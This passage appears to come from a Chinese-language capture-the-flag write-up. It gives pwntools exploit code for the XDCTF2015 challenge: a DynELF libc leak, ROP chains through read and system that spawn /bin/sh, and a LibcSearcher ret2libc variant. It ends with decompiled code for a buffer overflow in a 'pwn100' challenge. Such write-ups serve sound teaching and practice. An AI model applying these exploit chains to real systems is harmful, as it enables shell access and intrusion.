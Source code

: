 ```python

dynelf = DynELF(leak,elf=binary) 
systemAddress = dynelf.lookup("__libc_system",'libc') 
#log.success(hex(systemAddress))
print(hex(systemAddress))

#调用start函数来恢复栈
io.send(flat(['A'*112, 0x080483D0]))
#payload=padding+read PLT表地址（使用read函数来写入地址）+read函数返回地址（写入完成后需要调用system函数）+read函数参数1（0表示标准输入流stdin，1表示标准输出流stdout）+read函数参数2（bss段地址）+read函数参数3（strlen("/bin/sh\x00")+system函数返回地址+system函数的参数(bss段的地址)
payload = flat(['A' * 112,readPLT,systemAddress,0,bssAddress,10,0xdeadbeef,bssAddress])
#payload=flat(['A'*112,readPLT,ppp_ret,0,bssAddress,8,systemAddress,vulnAddress,bssAddress])
io.send(payload) 
io.send('/bin/sh\x00') 
io.interactive() 
```
***注意***:

payload = flat(['A' * 112,readPLT,systemAddress,0,bssAddress,10,0xdeadbeef,bssAddress])可以分解为2部分：
```python

(1)payload1 = 'A'*112 +p32(readPLT)+p32(vulnAddress)+p32(0)+p32(bssAddress)+p32(8)
	io.send(payload1)
	io.send('/bin/sh\x00')
(2)	payload2 = 'a'*112 +p32(systemAddress)+p32(0xdeadbeef)+p32(bssAddress)
	 io.send(payload2)
	 io.interactive() 
```
7、利用libcsearcher解题方法：
```python
#先leak出write函数在libc中的地址
rop1 = 'a'*112+p32(plt_write)+p32(plt_main)+p32(1)+p32(got_write)+p32(4)
p.recvuntil('Welcome to XDCTF2015~!\n')#就是忘了这一句
p.sendline(rop1)
write_addr = u32(p.recv(4))

#利用LibcSearcher获取libc版本
libc = LibcSearcher('write', write_addr)
lib_base = write_addr - libc.dump('write')
system_addr = lib_base + libc.dump('system')
binsh_addr = lib_base + libc.dump('str_bin_sh')

#调用system函数
p.recvuntil('Welcome to XDCTF2015~!\n')
payload1 = 'a' * 112 + p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr)
```

## pwn100
缓冲区溢出：
```c
sub_40063D((__int64)&v1, 0xC8u); //该函数存在缓冲区溢出，其中strlen(v1)为0x40

__int64 __fastcall sub_40063D(__int64 a1, unsigned int a2)
{
  //__int64 result; // rax@3
  unsigned int i; // [sp+1Ch] [bp-4h]@1

  for ( i = 0; i<a2; ++i )
  {
    read(0, a1[i], 1);
  }
  return i;
}
```